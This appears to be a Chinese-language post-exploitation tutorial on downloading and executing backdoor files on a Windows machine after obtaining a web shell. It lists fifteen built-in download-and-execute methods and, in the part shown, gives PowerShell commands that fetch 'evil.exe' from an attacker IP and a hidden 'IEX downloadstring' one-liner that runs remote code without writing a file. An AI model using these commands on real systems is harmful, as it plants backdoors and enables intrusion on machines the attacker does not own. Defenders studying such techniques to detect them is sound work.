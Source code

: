 当我们通过Web渗透获取了一个Shell，而且目标主机是Windows，我们该怎么去下载后门文件到目标主机上执行呢？

一般来说，实现Windows文件下载执行的方式不外乎以下几种方式。第一种，远程下载文件到本地，然后再执行；**第二种，远程下载执行，执行过程没有二进制文件落地，这种方式已然成为后门文件下载执行的首要方式****。**另外呢，只要你所在服务器的环境支持，你也可以通过任何一门语言来实现它，这种方式暂不在本文的讨论范围之内。

**在这里，****本文收集了15种常见的文件下载执行的方式，并结合具体案例**，让我们一起来看看是怎么实现的吧。

------

- PowerShell
- Bitsadmin
- certutil
- wget
- ipc$文件共享
- FTP
- TFTP
- WinScp
- msiexec
- IEExec
- mshta
- rundll32
- regsvr32 
- MSXSL.EXE
- pubprn.vbs

------

**1、PowerShell**

PowerShell是一种命令行外壳程序和脚本环境，使命令行用户和脚本编写者可以利用。

远程下载文件保存在本地：

~~~
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.28.128/imag/evil.txt','evil.exe')
~~~

远程执行命令：

~~~
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.28.128/imag/evil.txt'))"
~~~

![](./image/20200413-1.png)
